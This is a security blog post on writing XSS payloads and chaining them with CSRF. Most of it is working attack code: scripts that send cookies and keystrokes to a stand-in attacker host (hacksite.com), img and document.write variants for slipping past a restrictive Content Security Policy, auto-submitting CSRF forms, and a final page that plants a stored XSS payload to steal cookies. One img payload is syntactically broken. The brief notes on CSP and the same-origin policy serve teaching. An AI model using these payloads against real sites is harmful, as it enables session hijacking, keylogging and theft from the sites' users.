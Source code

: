 ```yaml
---
title: "CSRF and XSS Chaining"
date: 2025-03-27T10:00:00Z
---
```


In this blog, I will be discussing on crafting XSS payloads and chaining XSS with CSRF. Cross-site scripting (XSS) and Cross-site Request Forgery(CSRF) are old vulnerability which were part of OWASP top 10. Currently, XSS comes under A3: Injection whereas CSRF is no longer in OWASP top 10, 2021.

There are different ways to defend the web application against XSS attacks implementing all of them gives defense in depth approach where the common goal is to secure web application against XSS attacks. One such approach is having proper Content Security Policy (CSP) header directives.

As a proof of concept, most common payload used in XSS attacks is **alert()** or **prompt()**. But, we can use XSS to exfiltrate sensitive data using **fetch()** or **XMLHttpRequest()**.

```html
<!-- Payload for exfiltrating the cookies -->
<script>
  fetch("//hacksite.com/?cookie=" + btoa(document.cookie));
</script>

<!-- keylogger -->
<script>
  document.onkeypress = (e) => fetch("//hacksite.com/?key=" + btoa(e.key));
</script>
```

It is not always possible to use fetch or XMLHttpRequest directly for
exfiltrating the content, especially when **connect-src** directive is
restrictive. At this point, **document.write()** can be a useful utility with
<img /> HTML tag.

```html
<!-- Payload for exfiltrating the cookies when connect-src is restictive -->
<script>
  document.write(
    '<img src="http://hacksite.com/?cookie=' + document.cookie + '" />'
  );
</script>

<!-- Payload for exfiltrating the cookies with redirection -->

<img
  src="0"
  onerror="document.location"
  ="https://hacksite.com/?cookie="
  +
  encodeURIComponent(document.cookie)
/>
```

Above payload will work when **image-src and script-src** is not restrictive which define from where the images need to be loaded into the website. Above mentioned two payloads will work for following CSP header.

```t
#Insecure CSP Header
Content-Security-Policy: connect-src 'none';
font-src 'none'; frame-src 'none'; img-src 'self';
manifest-src 'none'; media-src 'none'; object-src 'none';
script-src 'unsafe-inline'; style-src 'self';
worker-src 'none'; frame-ancestors 'none'; block-all-mixed-content;

```

Crafting or finding a appropriate payload for XSS depends on CSP policy implemented on the web server. Maintaining a secure CSP policy will give advantage in securing the website from XSS attacks.

You can validate the CSP policy of your website using [Google’s CSP Validator](https://csp-evaluator.withgoogle.com/).

Coming to CSRF, have you ever wondered why always use HTML forms in CSRF payloads. Whatever request we want to send, we can send using fetch(). For example, payload to publish a drafted blog.

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>"CSRF Payload Example"</title>
  </head>
  <body>
    <h1>Sample Page</h1>
    <p>This page contains a fetch request payload.</p>

    <!-- The payload embedded in a script tag -->
    <script>
      fetch("https://blogsite.com/draft/1/publish", {
        method: "GET",
        credentials: "include",
      });
    </script>
  </body>
</html>
```

If you host this page on your local server then on opening this page, script gets executed and publish blog on blogsite.com. **This will not work because of Same Origin Policy (SOP)**.

The **Same-Origin Policy** (SOP) is a security mechanism enforced by web browsers to limit how scripts or resources from one origin can interact with resources from a different origin. An origin is defined by the protocol (e.g., http or https), domain (e.g., example.com), and port (e.g., 80). Due to SOP, JavaScript cannot freely send requests to or process responses from a different origin browsers block this behavior by default. This restriction, enforced at the browser level, helps prevent unauthorized access to sensitive data across websites.

This is one of the reason why HTML form element is used to craft CSRF payloads. Above payload can be sent using HTML forms as below.

```html
<!-- CSRF Payload -->
<html>
  <body>
    <form
      id="csrfForm"
      action="https://blogsite.com/draft/1/publish"
      method="GET"
    ></form>
    <script>
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

This payload will work as <form> element is not restricted by SOP to send request to different origin.

Finally, chaining CSRF with XSS to exfiltrate data using the payload below. With this payload, we are drafting a blog with the malicious content (XSS attack) and This draft is created with CSRF attack using html form. This is how we can leverage CSRF to exploit XSS.

```html
<!-- CSRF and XSS chain -->
<html>
  <body onload="document.csrfForm.submit()">
    <form name="csrfForm" action="http://blogsite.com/draft/" method="GET">
      <input
        type="hidden"
        name="msg"
        value="<script>fetch('http://hacksite.com/?cookie='+encodeURIComponent(document.cookie));</script>"
      />
    </form>
  </body>
</html>
```

Thanks and happy hacking !
